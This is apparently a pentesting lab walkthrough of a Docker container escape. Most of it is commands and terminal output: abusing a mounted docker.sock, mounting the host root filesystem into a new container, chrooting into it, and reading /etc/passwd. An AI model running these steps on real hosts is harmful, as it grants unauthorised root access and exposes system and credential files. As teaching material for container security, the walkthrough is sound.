 # Escape from a docker container with a mounted docker socket.

* Look for docker.sock in /var/run :

```bash
ls /var/run | grep docker.sock
```
Output:
```
pentester@NotSoSecure:~$ ls /var/run | grep docker.sock
docker.sock
pentester@NotSoSecure:~$
```
* Run a container by mounting the docker socket by running the below command:
```bash
docker run -it -v /var/run/docker.sock:/var/run/docker.sock ubuntu:latest bash
```
The above command will create a container using the latest ubuntu image and this container now will be able to communicate with the docker daemon running on the host. However, the container does not have docker installed by default.

Output:
```
pentester@NotSoSecure:~$ docker run -it -v /var/run/docker.sock:/var/run/docker.sock ubuntu:latest bash
root@70b64558e239:/# docker --version
bash: docker: command not found
root@70b64558e239:/#
```
* To install docker we run the following commands in the container:
```bash
apt-get update 
```
```bash
apt-get install docker.io
```
* To confirm if docker is running re-run ```docker --version``` in the container. 
```bash
root@70b64558e239:/# docker --version
Docker version 20.10.12, build 20.10.12-0ubuntu4
root@70b64558e239:/#
```
* Running docker images will list all the available images on the host.

```bash
root@70b64558e239:/# docker images
REPOSITORY      TAG       IMAGE ID       CREATED        SIZE
tomcat-sample   latest    bd638a673943   13 hours ago   680MB
ubuntu          latest    2dc39ba059dc   16 hours ago   77.8MB
alpine          latest    9c6f07244728   3 weeks ago    5.54MB
tomcat          9.0.62    5e9a4d049871   3 months ago   680MB
root@70b64558e239:/# docker ps -a
CONTAINER ID   IMAGE           COMMAND   CREATED         STATUS         PORTS     NAMES
70b64558e239   ubuntu:latest   "bash"    7 minutes ago   Up 7 minutes             elastic_panini
root@70b64558e239:/#
```
* Start a container by mounting the host file system as shown below:
```bash
docker run -it -v /:/host ubuntu bash
```
* To list the files on the host run ls -l /host 
```bash
root@70b64558e239:/# docker run -it -v /:/host ubuntu bash
root@2cd3a44dcb45:/# ls -la /host/
total 2097244
drwxr-xr-x  23 root root       4096 Aug 26 09:57 .
drwxr-xr-x   1 root root       4096 Sep  2 16:08 ..
drwxr-xr-x   2 root root       4096 Mar 20 08:11 bin
drwxr-xr-x   3 root root       4096 Aug 26 09:57 boot
drwxr-xr-x  18 root root       3780 Sep  1 16:09 dev
drwxr-xr-x  93 root root       4096 Aug 26 10:17 etc
drwxr-xr-x   3 root root       4096 Mar 20 08:07 home
lrwxrwxrwx   1 root root         34 Mar 20 08:04 initrd.img -> boot/initrd.img-4.15.0-171-generic
lrwxrwxrwx   1 root root         34 Mar 20 08:04 initrd.img.old -> boot/initrd.img-4.15.0-171-generic
drwxr-xr-x  19 root root       4096 Aug 26 10:07 lib
drwxr-xr-x   2 root root       4096 Mar 20 08:05 lib64
drwx------   2 root root      16384 Mar 20 08:01 lost+found
drwxr-xr-x   2 root root       4096 Mar 20 08:13 media
drwxr-xr-x   2 root root       4096 Mar 20 08:02 mnt
drwxr-xr-x   4 root root       4096 Aug 26 10:07 opt
dr-xr-xr-x 106 root root          0 Sep  1 16:10 proc
drwx------   3 root root       4096 Aug 26 10:18 root
drwxr-xr-x  22 root root        720 Sep  2 04:00 run
drwxr-xr-x   2 root root       4096 Sep  1 16:10 sbin
drwxr-xr-x   2 root root       4096 Mar 20 08:02 srv
-rw-------   1 root root 2147483648 Mar 20 08:01 swapfile
dr-xr-xr-x  13 root root          0 Sep  2 05:24 sys
drwxrwxrwt  11 root root       4096 Sep  2 16:08 tmp
drwxr-xr-x  10 root root       4096 Mar 20 08:02 usr
drwxr-xr-x   2 root root       4096 Aug 26 09:57 vagrant
drwxr-xr-x  11 root root       4096 Mar 20 08:02 var
lrwxrwxrwx   1 root root         31 Mar 20 08:04 vmlinuz -> boot/vmlinuz-4.15.0-171-generic
lrwxrwxrwx   1 root root         31 Mar 20 08:04 vmlinuz.old -> boot/vmlinuz-4.15.0-171-generic
root@2cd3a44dcb45:/#
```
* Chroot into the Host by running ```chroot /host bash ```
* Run ```cat /etc/passwd``` Now we have access to the host system via a container.

Output:
```bash
root@2cd3a44dcb45:/# chroot /host bash
root@2cd3a44dcb45:/# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:109::/run/uuidd:/usr/sbin/nologin
pentester:x:1000:1000:pentester,,,:/home/pentester:/bin/bash
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
vboxadd:x:999:1::/var/run/vboxadd:/bin/false
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
ntp:x:108:114::/nonexistent:/usr/sbin/nologin
usbmux:x:109:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
root@2cd3a44dcb45:/#
```
